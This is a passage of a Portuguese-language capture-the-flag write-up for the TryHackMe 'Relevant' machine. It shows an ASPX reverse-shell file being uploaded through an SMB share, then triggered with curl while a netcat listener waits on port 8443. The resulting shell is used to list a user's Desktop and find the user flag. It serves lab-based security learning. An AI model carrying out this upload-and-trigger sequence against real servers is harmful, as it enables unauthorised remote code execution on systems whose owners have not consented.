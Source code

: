 ```bash
┌──(hastur㉿hastur)-[~/Relevant]
└─$ smbclient \\\\10.10.226.231\\nt4wrksv                                         
Enter WORKGROUP\hastur's password: 
Try "help" to get a list of possible commands.
smb: \> put hastur.aspx 
putting file hastur.aspx as \hastur.aspx (3.4 kb/s) (average 3.4 kb/s)
smb: \> ls
  .                                   D        0  Tue Sep  7 19:25:30 2021
  ..                                  D        0  Tue Sep  7 19:25:30 2021
  hastur.aspx                         A     3411  Tue Sep  7 19:25:31 2021
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

                7735807 blocks of size 4096. 4945229 blocks available
smb: \> 
```

Agora podemos setar nosso `netcat` na porta 8443 do nosso exploit e enviar um `curl` para o endereço.

```bash
┌──(hastur㉿hastur)-[~/Relevant]
└─$ curl 'http://10.10.226.231:49663/nt4wrksv/hastur.aspx' 
```

E conseguimos nosso shell.

<img src="/img/thm/thm-relevant-4.png">

A flag `user.txt` se encontra no Desktop do usuário `Bob`.

```bash
c:\Users\Bob\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\Users\Bob\Desktop

07/25/2020  02:04 PM    <DIR>          .
07/25/2020  02:04 PM    <DIR>          ..
07/25/2020  08:24 AM                35 user.txt
               1 File(s)             35 bytes
               2 Dir(s)  20,225,691,648 bytes free
```

